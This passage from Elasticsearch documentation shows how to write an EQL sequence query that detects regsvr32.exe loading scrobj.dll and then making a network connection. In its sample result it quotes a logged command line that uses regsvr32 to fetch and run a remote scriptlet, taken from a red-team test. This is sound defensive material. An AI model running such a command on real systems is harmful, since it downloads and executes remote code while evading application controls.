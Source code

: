 
## Determine the likelihood of success [eql-ex-detemine-likelihood-of-success]

In many cases, attackers use malicious scripts to connect to remote servers or download other files. Use an [EQL sequence query](/reference/query-languages/eql-syntax.md#eql-sequences) to check for the following series of events:

1. A `regsvr32.exe` process
2. A load of the `scrobj.dll` library by the same process
3. Any network event by the same process

Based on the command line value seen in the previous response, you can expect to find a match. However, this query isn’t designed for that specific command. Instead, it looks for a pattern of suspicious behavior that’s generic enough to detect similar threats.

```console
GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
```
%  TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

```console-result
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
```
